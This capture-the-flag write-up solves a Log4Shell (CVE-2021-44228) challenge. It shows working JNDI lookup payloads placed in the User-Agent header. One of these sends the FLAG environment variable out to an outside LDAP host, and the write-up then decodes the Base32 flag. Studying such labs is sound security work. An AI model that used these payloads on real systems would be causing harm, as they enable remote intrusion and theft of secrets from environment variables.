

# Day 24 - The watcher

We have found a service that watches our every step, are you able to figure out how we can read the FLAG from the environment? NB. Container will be restarted every 30 minutes.

## Write-Up
When accessing todays challenge we are looking at a message telling us **"Be careful, I'm logging everything..."**. For the greater part of this December, Apache Log4j has been the hot topic as it was reported a vulnerability in its *jndi* lookup feature, https://nvd.nist.gov/vuln/detail/CVE-2021-44228. I believe the hints are pointing us towards this vulnerability.

Many has written about it, testet it and made tools around this. A good video from [LiveOverflow - YouTube](https://www.youtube.com/watch?v=w2F67LbEtnk) and a demonstration from [John Hammond - YouTube](https://www.youtube.com/watch?v=7qoPDq41xhQ).

To test todays challenge we will use one of the many tools/testers/scanners out there; https://log4shell.huntress.com/

We start our proxy, *Burp* in my case, and make our web-browser proxy the traffic. The thing we are after are the **GET** request, so we do not need to intercept and tamper with the initial traffic. We send the request to *Repeater* and edit the *User-Agent* header field with the link and identifier we have from *Huntress*. If we have gotten this right and the page is vulnerable, we should se a request and information populated.

Example value for the *User-Agent* field
```
${jndi:ldap://log4shell.huntress.com:1389/e09d3d5e-e548-404e-9989-4606547ddb16}
```

Ay Caramba... we get data... and now know that this is about Log4J/jndi. We are tasked with reading the "FLAG from the environment", so we could guess that there is an environment variable called *FLAG*. We can also get this by using the *Huntress* test site. To read such keys we onlye have to edit the *User-Agent* value a little bit and add *`data=${env:FLAG}`*, making the complete value look similar to this

``` shell
${jndi:ldap://log4shell.huntress.com:1389/flag=${env:FLAG}/e09d3d5e-e548-404e-9989-4606547ddb16}
```

On the test-site we should then see the FLAG environment variable.



The data indicate that the string is Base32 encoded, so let's decode it.

``` shell
$ echo "KJJVQQ33K5SV6ZDPL5WGS23FL5WG6Z3HNFXGOX3SNFTWQ5B7PU" | base32 -d
RSXC{We_do_like_logging_right?base32: invalid input

[Need some extra padding to get rid of the error...]
$ echo "KJJVQQ33K5SV6ZDPL5WGS23FL5WG6Z3HNFXGOX3SNFTWQ5B7PU======" | base32 -d
RSXC{We_do_like_logging_right?}
```

And we have solved the last challenge.

## The Flag
RSXC{We_do_like_logging_right?}